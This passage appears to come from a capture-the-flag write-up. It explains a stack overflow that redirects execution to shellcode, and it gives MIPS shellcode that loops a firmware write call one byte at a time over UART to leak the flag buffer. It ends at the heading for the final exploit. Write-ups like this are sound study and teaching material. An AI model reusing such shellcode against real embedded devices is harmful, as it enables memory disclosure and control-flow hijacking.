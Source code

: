```
|      .       |  |
+--------------+-->
```

Fortunately, the return address is picked up and the program executes the
shellcode without any additional manipulation.

### The Shellcode

Since there is already a write function at my disposal (`0xbfc08cbc`), I only need to set the arguments straight
and branch right into it. One little problem I experienced: The write function
wasn't able to give me the flag at once. That's why I modified the shellcode to
call write with length=1 and iterate over the flag.

```
/* this should only be executed once */
move $s0, $zero

/* load buffer address into a1 */
lui $a1, 0xa200
add $a1, $a1, 0x8000

/* add current offset */
add $a1, $a1, $s0
add $s0, $s0, 1

/* load uart io into a0 */
lui $a0, 0xa00f
add $a0, $a0, 0xecfc

/* load buffer len into a2 */
add $a2, $zero, 1

/* load output function address into a3 */
lui $a3, 0xbfc0
add $a3, $a3, 0x8cbc

/* set up the loop,
   return address will be 
   the second instruction */
lui $ra, 0xa00f
add $ra, $ra, 0xea80

/* branch into output function */
jr $a3
nop
```


### The Final Exploit

Here's the final exploit:
